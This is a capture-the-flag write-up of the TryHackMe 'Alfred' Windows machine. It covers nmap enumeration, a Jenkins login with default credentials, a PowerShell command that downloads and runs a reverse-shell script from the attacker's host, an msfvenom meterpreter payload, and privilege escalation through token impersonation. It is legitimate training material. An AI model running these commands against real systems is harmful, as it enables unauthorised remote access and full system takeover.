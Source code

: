 ```yaml
---
title: "TryHackMe - Alfred"
author: Nasrallah
description: ""
date: 2022-05-27 00:00:00 +0100
categories : [TryHackMe]
tags: [tryhackme, windows, easy, jenkins, powershell, metasploit, msfvenom, meterpreter]
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Alfred](https://tryhackme.com/room/alfred) from [TryHackMe](https://tryhackme.com). Easy windows machine running Jenkins in a webserver. We use some known credentials to login to Jenkins and run some command that would give us a reverse shell. After that we generate a payload using msfvenom and upload it to the target to get a meterpreter shell that would make it easy to escalate our privileges on the machine.

# **Enumeration**
## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```Bash
Nmap scan report for 10.10.209.108
Host is up (0.097s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
3389/tcp open  tcpwrapped
|_ssl-date: 2022-06-03T08:50:54+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2022-06-02T08:38:17
|_Not valid after:  2022-12-02T08:38:17
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We got 3 ports open, webserver on port 80, probably rdp on port 3389, and another webserver on port 8080.

## Web

Let's go to the webserver on port 80.

![](/assets/img/tryhackme/alfred/1.png)

There is a picture of Bruce Wayne and some text, nothing really interesting.

Let's go to port 8080.

![](/assets/img/tryhackme/alfred/2.png)

It's Jenkins login page. If we some of the most used credentials, we'll be able to login successfully.

![](/assets/img/tryhackme/alfred/3.png)



# **Foothold**

We need to find a place where we can execute command. To do that, go to `project`.

![](/assets/img/tryhackme/alfred/4.png)

Now go to `configure`.

![](/assets/img/tryhackme/alfred/5.png)

Great! We found a place to execute windows batch commands. Time for a reverse shell.

First, we need to download this [script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and serve it with a webserver, we can use python for that: `sudo python3 -m http.server 80`.

After that, we need to set up a listener to receive the shell: `nc -lvnp 9001`

![](/assets/img/tryhackme/alfred/6.png)

Now we need to put the following powershell command in place and run it.

```Powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.11.31.131:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.11.31.131 -Port 9001
```
>Change the ip addresses to yours(tun0)

![](/assets/img/tryhackme/alfred/21.png)


After entering the command, press `save`. Then go to `Build now`

![](/assets/img/tryhackme/alfred/20.png)

Now if we go to our listener, we should see that we have received a shell.

![](/assets/img/tryhackme/alfred/7.png)


# **Privilege Escalation**

For this part, we can upgrade our shell to meterpreter in order to easily escalate our privileges.

First, let's create a payload using `msfvenom`.

```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.11.31.131 LPORT=1234 -f exe -o shell.exe
```
>Don't forget to change the ip address.

![](/assets/img/tryhackme/alfred/8.png)

Good, let's fire up metasploit and setup a handler listener.

![](/assets/img/tryhackme/alfred/9.png)

We need to set the options to the same ones we used when we created the payload with `msfvenom`

Great! Now in the same directory where we created the exploit, set up an http server like the one we did before:`sudo python3 -m http.server 80` so that we can upload it to the target.

After that we need to execute the following powershell command in the shell we just got to upload the exploit.

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.11.31.131/shell.exe','shell.exe')"
```

![](/assets/img/tryhackme/alfred/22.png)

Great! We have uploaded the exploit successfully, now execute it with the command `Start-Process "shell.exe"`

![](/assets/img/tryhackme/alfred/10.png)

Now if we go to our listener on metasploit, we can see that we received a meterpreter shell.

![](/assets/img/tryhackme/alfred/11.png)

Now to have system privileges, which is the higher ranking in a windows machine, we execute the command `getsystem`.

![](/assets/img/tryhackme/alfred/12.png)

And we got it, but we need to understand how that worked. To do that, first drop a shell using the command `shell`, and then execute `whoami /priv`
> Do that as the user alfred not authority\system.

![](/assets/img/tryhackme/alfred/13.png)

With that command, we can see the different tokens we have. One of the tokens we have is `SeImpersonatePrivilege`. To abuse that, let's load a module named `incognito` and run the command `impersonate_token "BUILTIN\Administrators"`

![](/assets/img/tryhackme/alfred/14.png)

We got system privileges. Now let's go to the directory where the flag is and read it.

![](/assets/img/tryhackme/alfred/15.png)

We can't, even though we have the higher privileged token. To solve that, we need to change the process we currently in to a process that has system privilege.

First, list the processes with `ps`.

![](/assets/img/tryhackme/alfred/16.png)

We choose the **services** process, now use the command `migrate` with the process number of **services**.

![](/assets/img/tryhackme/alfred/17.png)

And we that, we have successfully rooted **Alfred**.
---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1